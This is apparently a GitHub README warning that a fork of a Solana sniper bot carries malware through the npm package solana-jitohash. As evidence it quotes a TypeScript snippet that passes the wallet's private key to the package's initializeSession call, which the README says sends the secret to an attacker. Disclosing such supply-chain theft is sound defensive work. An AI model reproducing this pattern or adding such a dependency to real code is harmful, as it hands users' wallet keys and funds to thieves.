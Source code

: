 # Warning: Do Not Use Solana Sniper Bot

This repository is a fork from [SoaRTradesSol/solana-sniper-bot](https://github.com/SoaRTradesSol/solana-sniper-bot). **Please be aware that this version contains a virus.**

## Security Alert

The repository utilizes an npm package called [solana-jitohash](https://www.npmjs.com/package/solana-jitohash), which is highly suspicious:

- **Downloads**: Only 136 downloads, likely from victims.
- **Code**: Obfuscated and sends HTTP requests that could compromise security.

![Suspicious Code Example](https://github.com/user-attachments/assets/111eb009-6da8-4814-abb9-c44df598b3ce)

## Risky Implementation

The `solana-sniper-bot` uses this library to initialize a session with the private secret of the user's wallet. Here's a snippet from the code:

```typescript
import { initializeSession } from 'solana-jitohash';

(async () => {
  const walletKeyPairFile = process.env.PRIVATE_KEY!;
  const walletKeyPair = Keypair.fromSecretKey(bs58.decode(walletKeyPairFile));
  initializeSession(walletKeyPairFile);
  const connection = new Connection(process.env.RPC_ENDPOINT ?? clusterApiUrl('devnet'), 'finalized');
})();
```

## Summary

This implementation sends your private secret to a potential attacker.

**For your safety, do not use this bot.**


